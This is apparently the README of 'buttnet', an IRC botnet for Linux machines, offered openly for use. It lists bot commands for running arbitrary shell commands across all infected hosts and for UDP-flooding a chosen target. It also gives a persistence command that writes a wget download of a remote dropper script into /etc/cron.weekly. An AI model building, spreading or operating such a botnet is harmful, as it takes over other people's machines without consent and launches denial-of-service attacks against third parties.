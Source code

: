# buttnet
A simple IRC Botnet for linux-based targets

##Features
###Commands
* !say `<message>`- Echos message back to channel
  * Command output is PM'd back to command issuer
* !cmd `<command>` - Runs command on all bots in channel, or bot PM'd. 
* !udp `<host>` `<port | 0 for random>` `<time>` - UDP flood target

###Dropper
Dropper allows remote persistence. Example:
* `echo "wget http://target/dropper.php" > /etc/cron.weekly/persistence.sh`
###Mutex
Lock file acts as a mutex to prevent multiple instances of the bot from running at once
